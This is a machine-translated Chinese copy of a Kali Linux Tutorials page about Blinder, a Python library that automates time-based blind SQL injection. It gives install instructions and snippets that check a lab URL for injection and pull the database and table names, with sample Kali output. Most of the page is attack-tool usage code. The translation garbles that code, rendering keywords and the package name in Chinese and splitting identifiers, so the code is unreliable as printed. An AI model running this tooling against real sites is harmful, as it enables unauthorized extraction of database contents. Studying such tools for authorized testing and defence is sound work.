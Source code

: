 # Blinder:自动化基于时间的盲目 SQL 注入的 Python 库

> 原文：<https://kalilinuxtutorials.com/blinder/>

[![Blinder : A Python Library To Automate Time-Based Blind SQL Injection](img//3465dde885162e288056a18dc648364d.png "Blinder : A Python Library To Automate Time-Based Blind SQL Injection")](https://1.bp.blogspot.com/-O3fwJacA_5I/Xjn-thhP_xI/AAAAAAAAEsQ/y5ELY-83xis44yT9UITzqMVfL4UMGmC1QCLcBGAsYHQ/s1600/Sql.png)

**Blinder** 是一个小的 python 库，通过使用预定义的查询作为自动化快速 PoC 开发的函数来自动化基于时间的盲 SQL 注入。

**安装**

您可以使用以下命令安装它:

**pip 安装遮挡板**

或者下载源代码并手动导入到您的项目中。

**用法**

要使用它，你需要导入`Blinder`模块，然后开始使用它的主要功能。

**也可以理解为-[应用程序检查器:一个源代码分析器，用于显示感兴趣的特性](https://kalilinuxtutorials.com/application-inspector/)**

您可以在“当前版本”中使用它来执行以下操作:

*   检查基于时间的注射。
*   获取数据库名称。
*   获取表名。

**您可以使用以下代码在 URL 中检查注入:**

**！/usr/bin/python**
**导入 Blinder
blind = Blinder . Blinder(
" http://sqli-lab/SQL _ injection/index . PHP？search=3 "，
sleep = 1
)
print blind . check _ injection()**

执行结果将是:

**root @ kali:~/Desktop # python check . py
True
root @ kali:~/Desktop #**

您可以使用以下代码获取数据库名称:

**！/usr/bin/python

导入 Blinder
blind = Blinder . Blinder(
" http://sqli-lab/SQL _ injection/index . PHP？search=3 "，
sleep=1
)

print "数据库名称为:%s " % blind.get_database()**

结果将会是:

**root @ kali:~/Desktop # python get-Database . py
数据库名称为:db1
root@kali:~/Desktop#**

要获取表名，可以使用以下代码:

**！/usr/bin/python**
**导入 Blinder
blind = Blinder . Blinder(
" http://sqli-lab/SQL _ injection/index . PHP？search=3 "，
sleep = 1
)

tables = blind . get _ tables()**

对于表中的表:

**打印表格**

结果将会是:

**root @ kali:~/Desktop # python get-tables . py
博客
笔记
root@kali:~/Desktop#**

[**Download**](https://github.com/mhaskar/Blinder)